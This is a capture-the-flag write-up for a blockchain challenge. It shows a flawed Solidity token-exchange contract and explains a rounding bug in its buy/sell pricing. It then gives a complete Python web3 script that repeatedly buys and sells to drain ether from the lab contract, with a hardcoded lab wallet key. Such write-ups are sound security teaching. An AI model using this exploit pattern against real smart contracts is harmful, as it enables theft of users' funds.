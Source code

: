 # PBJ

Category: MISC (Blockchain)

Points: 345

Solves: 44

>The bot does all the trading, while I sit back and relax.

We are given a etheruem smart contract:

```js
pragma solidity ^0.8.0;
contract PBJ {
    uint256 public flagCoin = 100;
    uint256 public eth; 
    uint256 public price; 
    uint256 public totalPrice;
    uint256 public k;
    uint256 public x;
    uint256 public y;
    uint256 public to_pay;
    uint256 public flag;
    mapping(address => uint256) public flags;
     constructor() payable {
         eth = msg.value; 
         k = eth * flagCoin;
     }
     function buy() payable public {
        flag = (msg.value*flagCoin)/(eth+msg.value);
        require(flag <= flagCoin,"Not enough flagCoin!");
        flagCoin =  flagCoin - flag;
        eth += msg.value;
        flags[msg.sender] += flag;
     }
     function sell(uint256 flag) payable public {
         require(flag <= flagCoin,"Not enough flagCoin!");
         require(flag <= flags[msg.sender],"You do not have that many flagCoins!");
         y = flag + flagCoin;
         x = k/y;
         to_pay = eth - x;
         flagCoin = y;
         eth = x;
         flags[msg.sender] -= flag;
         payable(msg.sender).transfer(to_pay);
     }
     function check_balance() public view returns (uint256) {
        return flags[msg.sender];
     }
     function priceForXFlagCoin(uint256 flag) public view returns (uint256) {
        return (k/(flagCoin-flag))-eth;
     }

     function isChallSolved() public view returns (bool) {
        return (msg.sender.balance / 1 ether) > 50;
    }
}
```

Looking at the methods, it seems like the goal of this challenge is to gain ether by buying and selling `flagCoin`s and finding some kinda of bug that allows us to gain more ether when we sell compared to how much we lose when we buy.


Since we are trying to make money by buying and selling coins we need to find a way to calculate our net profits for spending `X` amount of ether to buy flag coins. However, this doesn't make sense because then we would have to calculate the best value for spending any amount of ether which is a continous variable.

Instead, our insight will be to calcuate how much money we will gain if we buy and sell some amount of flagcoins. Since we can only have a discrete number of the flagcoins, we can just loop through calculating our profit if we buy and sell `i` flagcoins.

Since we are given all the variables used to calculate the price of buying a coin, we can just calculate that value locally:

```py
def calcPayment(flag, flagCoin, eth):
    payment = contract.functions.priceForXFlagCoin(flag).call({'from': ACCOUNT})
    l = payment
    r = payment*4

    while l < r:
        mid = (l+r)//2
        if (w3.from_wei(mid,'ether')*decimal.Decimal(flagCoin))//(decimal.Decimal(flagCoin)+w3.from_wei(mid,'ether')) < flag:
            l = mid+1
        else:
            r = mid
    
    assert (w3.from_wei(l,'ether')*decimal.Decimal(flagCoin))//(decimal.Decimal(flagCoin)+w3.from_wei(l,'ether')) == flag
    return l+w3.to_wei(0.2, 'ether')
```

We can also calculate the value for when we sell the flagcoins as well locally:

```py
# if i buy with income
t_flagCoin = flagCoin - flag
t_eth = eth_value + w3.from_wei(payment,'ether')
income_eth = t_eth - k//(flag + t_flagCoin)
print(income_eth, f"ETH for {flag} sell")
```

Finally, we can just loop over some amount of flagcoins we want to buy and check the profitability of each one:

```py
for flag in range(11,1,-1):
    payment = calcPayment(flag, flagCoin, eth_value)
    print(w3.from_wei(payment,'ether'), f"ETH for {flag} buy")

    # if i buy with income
    t_flagCoin = flagCoin - flag
    t_eth = eth_value + w3.from_wei(payment,'ether')
    income_eth = t_eth - k//(flag + t_flagCoin)
    print(income_eth, f"ETH for {flag} sell")

    if income_eth > w3.from_wei(payment,'ether') and w3.from_wei(payment,'ether') < balance:
        print(f"Using {w3.from_wei(payment,'ether')} to buy {flag} flags")
        buy_func = contract.functions.buy()
        send_tx(buy_func, payment)
        getInfo()
        sell_func = contract.functions.sell(flag)
        send_tx(sell_func)
        getInfo()
        flagCoin -= flag
        income_eth = k//(flag + t_flagCoin)
        return
```

After running this enough times, we will eventually gain enough coins to solve the challenge.


## Flag

`ictf{n3v3r_7ru571ng_7h15_b0t_4g41n}`

## Solve Script

```py
from web3 import Web3
import math
import decimal

# ====== CONFIG ======
RPC_URL = "http://34.45.211.133:41878"   # <-- replace with the actual RPC endpoint
CONTRACT_ADDRESS = "0xE2AE71bD3Cf2F3ae0255C783CCf1e16Ed44E20Cd" # <-- replace with actual contract address
PRIVATE_KEY = "0x3b0ca8f988e0d92c3b5fb000717e4818c3dc6c1875965922d557c302341f5a36"           # <-- replace with your wallet key
ACCOUNT = "0xA738e2b28B26e30f2e81903F0C1A1604fB7ccF93"            # <-- replace with your wallet address

# Connect to chain
w3 = Web3(Web3.HTTPProvider(RPC_URL))
assert w3.is_connected(), "Could not connect to RPC"

# Load contract ABI
ABI = [
    ... # Removed ABI for readability
]

contract = w3.eth.contract(address=CONTRACT_ADDRESS, abi=ABI)

# Helper: build & send a transaction
def send_tx(func, value=0):
    nonce = w3.eth.get_transaction_count(ACCOUNT)
    tx = func.build_transaction({
        'from': ACCOUNT,
        'value': value,
        'gas': 300000,
        'gasPrice': w3.to_wei('1', 'gwei'),
        'nonce': nonce
    })
    signed = w3.eth.account.sign_transaction(tx, PRIVATE_KEY)
    tx_hash = w3.eth.send_raw_transaction(signed.raw_transaction)
    receipt = w3.eth.wait_for_transaction_receipt(tx_hash, timeout=300)
    return receipt

def getInfo():
    # Contract Eth 
    eth_value = contract.functions.eth().call()
    print("ETH in pool at start:", w3.from_wei(eth_value, 'ether'))

    # Contract l
    k_value = contract.functions.k().call()
    print("K value starts at:", w3.from_wei(k_value, 'ether'))

    # Ether count
    balance = w3.eth.get_balance(ACCOUNT)
    print("Your ETH balance:", w3.from_wei(balance, 'ether'))

    # Ceck your flag balance
    balance = contract.functions.check_balance().call({'from': ACCOUNT})
    print("Your flag balance:", balance)

def calcPayment(flag, flagCoin, eth):
    payment = contract.functions.priceForXFlagCoin(flag).call({'from': ACCOUNT})
    l = payment
    r = payment*4

    while l < r:
        mid = (l+r)//2
        if (w3.from_wei(mid,'ether')*decimal.Decimal(flagCoin))//(decimal.Decimal(flagCoin)+w3.from_wei(mid,'ether')) < flag:
            l = mid+1
        else:
            r = mid
    
    assert (w3.from_wei(l,'ether')*decimal.Decimal(flagCoin))//(decimal.Decimal(flagCoin)+w3.from_wei(l,'ether')) == flag
    return l+w3.to_wei(0.2, 'ether')

global_eth = decimal.Decimal(99.99)
global_flagCoin = decimal.Decimal(100)

def calcGoodValue():
    global global_eth, global_flagCoin
    flagCoin = global_flagCoin
    eth_value = global_eth
    k = flagCoin*eth_value
    balance = w3.eth.get_balance(ACCOUNT)
    balance = w3.from_wei(balance, 'ether')

    print(f"Current Values flagCoin: {flagCoin} | eth: {eth_value}")
    for flag in range(11,1,-1):
        payment = calcPayment(flag, flagCoin, eth_value)
        print(w3.from_wei(payment,'ether'), f"ETH for {flag} buy")

        # if i buy with income
        t_flagCoin = flagCoin - flag
        t_eth = eth_value + w3.from_wei(payment,'ether')
        income_eth = t_eth - k//(flag + t_flagCoin)
        print(income_eth, f"ETH for {flag} sell")

        if income_eth > w3.from_wei(payment,'ether') and w3.from_wei(payment,'ether') < balance:
            print(f"Using {w3.from_wei(payment,'ether')} to buy {flag} flags")
            buy_func = contract.functions.buy()
            send_tx(buy_func, payment)
            getInfo()
            sell_func = contract.functions.sell(flag)
            send_tx(sell_func)
            getInfo()
            flagCoin -= flag
            income_eth = k//(flag + t_flagCoin)
            return

getInfo()

calcGoodValue()

getInfo()

solved = contract.functions.isChallSolved().call({'from': ACCOUNT})

print("Challenge solved?", solved)
```

